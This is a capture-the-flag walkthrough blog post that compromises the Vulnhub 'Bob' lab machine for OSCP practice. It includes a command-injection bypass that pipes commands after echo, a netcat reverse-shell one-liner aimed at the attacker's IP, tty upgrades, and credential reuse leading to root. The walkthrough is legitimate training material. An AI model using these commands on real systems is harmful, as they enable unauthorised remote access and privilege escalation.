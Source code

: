 ```yaml
---
layout: post
title: Bob - Vulnhub
date: 2024-04-19 00:01:00
description: A walkthrough of the machine “Bob” on Vulnhub.
tags: ctf-walkthrough exam-prep pentesting
categories: ctf
---
```


This is a write-up of the machine called Bob on Vulnhub. It is one of the machines recommended for OSCP preparations.

Link: [https://www.vulnhub.com/entry/bob-101,226/](https://www.vulnhub.com/entry/bob-101,226/)

I set up the machine on my VirtualBox and set the network to bridged mode. First, let’s find the IP address of the machine. To do so, I ran the following command:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">sudo netdiscover -i eth0</code>
</div>

I used eth0 since I’m on a wired connection. The output I got was as follows.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The IP assigned for the machine was 192.168.1.34. Great, now that we know our target IP, let’s run an nmap scan on the machine. The command I used for nmap is:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">nmap -sC -sV 192.168.1.34</code>
</div>

I got the following output as a result.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

We can see that FTP port 21 and HTTP port 80 are open. Let’s check the website out.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

We are greeted by a homepage that seems to belong to a high school. Our nmap scan showed us that there is a robots.txt file associated with the page. Let’s check that out.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_4.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

We have 4 pages here. I checked all of them; all but one was not valuable to us. The dev\_shell.php file was very interesting, as it gave us a portal that seemed to allow us to run commands on the server.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

It’s not that easy, though. The input is sanitized. Most commands do not work directly, but it accepted the echo command.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_6.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I tried to see what else would work, and found that if we pair a command with the echo command using the pipe operator, it would run the command.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Now all we needed to do was find a one-liner reverse shell to get a connection to the server. The best place to go for this is PentestMonkey’s reverse shell cheat sheet: [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) .

I checked my attacker machine IP, and it was 192.168.1.40. I set up a listener on port 1234 using the command:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">nc -lvp 1234</code>
</div>

Then, I started to check which of the one-liner commands from PentestMonkey would work. I tried the bash one-liner and php one-liner, but they did not work for me. Finally, the netcat one-liner worked.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_8.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The final command I put into dev_shell.php was as follows:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">echo "hello" | nc -e /bin/sh 192.168.1.40 1234</code>
</div>

Sure enough, I got a reverse shell connection.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_9.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I upgraded the shell with a few tweaks. First, I ran the command `python -c 'import pty; pty.spawn("/bin/bash")'` to upgrade to a tty shell. Then I ran `export TERM=xterm` so that I could use the clear command.

Perfect. Now, it’s time for enumeration. I went to the /home folder and checked all the users available. I also checked the /etc/passwd file to see other users. I did not have access to /etc/shadow, so no luck in finding possible hashes. However, I did find an interesting note in the user Elliot’s folder.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_10.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

We got two passwords here; Elliot’s which was “theadminisdumb” and James’ which was “Qwerty”. I logged into both Elliot and James using the command `su <username>`, but I did not get any extra privileges I could use. Note that there is a flag.txt file at root, but I did not have permissions to read it using any of the users I could access. Well, more enumeration!

I checked bob’s folder, which should be interesting since the whole machine is named after him. It took me down a long path of nested folders, to finally find a notes.sh file at /home/bob/Documents/Secret/Keep\_Out/Not\_Porn/No\_Lookie\_In\_Here.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_11.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Since it was a .sh file, the first thing I tried to do was to see if I could change the text inside to execute some code that will grant me higher privileges. But, only Bob had the permissions to edit the file.

The text in the file seemed to be some random text at first, but upon closer observation, the first letter of each sentence put together forms a word.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_12.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

“HARPOCRATES” was the word. That’s very interesting. A quick google search showed me that it was the name of the god of silence and secrets.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_13.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

HARPOCRATES should be some kind of password by the looks of it. There was another file in Bob’s Documents folder, called login.txt.gpg. GPG stands for GNU Privacy Guard, which means it’s an encrypted file. Perhaps we could use HARPOCRATES as a passphrase to decrypt the file.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I googled how to decrypt GPG files, and finally found a command that worked at [https://unix.stackexchange.com/questions/60213/gpg-asks-for-password-even-with-passphrase](https://unix.stackexchange.com/questions/60213/gpg-asks-for-password-even-with-passphrase).

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The final command I used is given below.

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">gpg -d --batch --passphrase HARPOCRATES login.txt.gpg</code>
</div>

Sure enough, I was able to decrypt the file and find Bob’s credentials as “bob:b0bcat\_”.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_16.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I logged into Bob’s user to find that Bob had full privileges on the machine, which meant I could easily escalate to root user using `su root`.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_17.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Now all that was left to do is read the flag.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/bob/bob_18.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

And that was it! I hope you enjoyed the walkthrough. Happy hacking!
